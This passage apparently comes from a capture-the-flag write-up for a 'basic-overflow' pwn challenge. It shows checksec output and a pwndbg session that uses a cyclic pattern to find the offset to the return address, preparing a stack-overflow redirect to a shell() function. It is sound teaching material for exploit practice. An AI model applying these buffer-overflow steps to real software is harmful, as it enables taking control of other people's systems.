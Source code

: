 ```c
```
Since the binary has no PIE
```console
$ pwn checksec --file basic-overflow
[*] '/home/vulnx/Games/CTFs/UofT/pwn/basic-overflow/basic-overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
we can hardcode the address of `shell()` in our payload. Let's quickly calculate the offset to RIP
```console
$ gdb ./basic-overflow -q
pwndbg> b * main +31
Breakpoint 1 at 0x401175
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/vulnx/Games/CTFs/UofT/pwn/basic-overflow/basic-overflow
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Breakpoint 1, 0x0000000000401175 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────────
 RAX  0x0
*RBX  0x7fffffffdef8 —▸ 0x7fffffffe21b ◂— '/home/vulnx/Games/CTFs/UofT/pwn/basic-overflow/basic-overflow'
*RCX  0x7ffff7f958e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RDX  0x0
*RDI  0x7ffff7f97720 (_IO_stdfile_0_lock) ◂— 0x0
*RSI  0x4052a1 ◂— 'aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n'
*R8   0x405305 ◂— 0x0
 R9   0x0
*R10  0x4
*R11  0x246
 R12  0x0
*R13  0x7fffffffdf08 —▸ 0x7fffffffe259 ◂— 'ALACRITTY_LOG=/tmp/Alacritty-243368.log'
*R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*R15  0x403df0 —▸ 0x401100 ◂— endbr64
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdde8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401175 (main+31) ◂— ret
──────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────────
 ► 0x401175 <main+31>    ret    <0x616161616161616a>










───────────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdde8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│     0x7fffffffddf0 ◂— 'kaaaaaaalaaaaaaamaaa'
```
